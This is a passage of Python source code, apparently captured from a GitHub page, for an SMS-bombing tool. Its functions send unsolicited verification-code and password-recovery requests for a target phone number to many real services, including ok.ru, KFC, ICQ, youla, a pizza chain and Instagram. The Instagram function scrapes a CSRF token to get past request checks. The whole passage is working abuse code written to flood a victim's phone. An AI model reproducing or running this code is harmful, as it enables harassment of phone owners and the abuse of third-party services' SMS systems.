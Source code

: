     s.post("https://ok.ru/dk?cmd=AnonymRegistrationEnterPhone&st.cmd=anonymRegistrationEnterPhone",data=f"st.r.phone=+66{phone[1:]}")

    s.post("https://ok.ru/dk?cmd=AnonymRegistrationAcceptCallUI&st.cmd=anonymRegistrationAcceptCallUI",data="st.r.fieldAcceptCallUIButton=Call")



def karusel(phone):

    s=Session()

    s.post('https://app.karusel.ru/api/v1/phone/', data={'phone': phone})



def KFC(_phone):

    post('https://app-api.kfc.ru/api/v1/common/auth/send-validation-sms', json={'phone': '+' + _phone})



def icq(phone):

    post(f"https://u.icq.net/api/v4/rapi",json={"method":"auth/sendCode","reqId":"24973-1587490090","params":{"phone": f"66{phone[1:]}","language":"en-US","route":"sms","devId":"ic1rtwz1s1Hj1O0r","application":"icq"}},headers=header)



def findclone(phone):

    d=get(f"https://findclone.ru/register?phone=+66{phone[1:]}",headers={"X-Requested-With" : "XMLHttpRequest","User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36"}).json()



def spam_pizza(phone): #pizza

    post('https://api2.1112.com/api/v1/otp/create', data = {'phonenumber': phone, 'language': "th"})

def youla(phone):

    post('https://youla.ru/web-api/auth/request_code', data={'phone': phone})



def ig_token():

    d=get("https://www.instagram.com/",headers=header).headers['set-cookie']

    d=search("csrftoken=(.*);",d).group(1).split(";")

    return d[0],d[10].replace(" Secure, ig_did=","")



def Facebook(phone):

    token,_=ig_token()

    d=post("https://www.instagram.com/accounts/account_recovery_send_ajax/",data=f"email_or_username=66{phone}&recaptcha_challenge_field=",headers={"Content-Type":"application/x-www-form-urlencoded","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36","X-CSRFToken":token}).json()
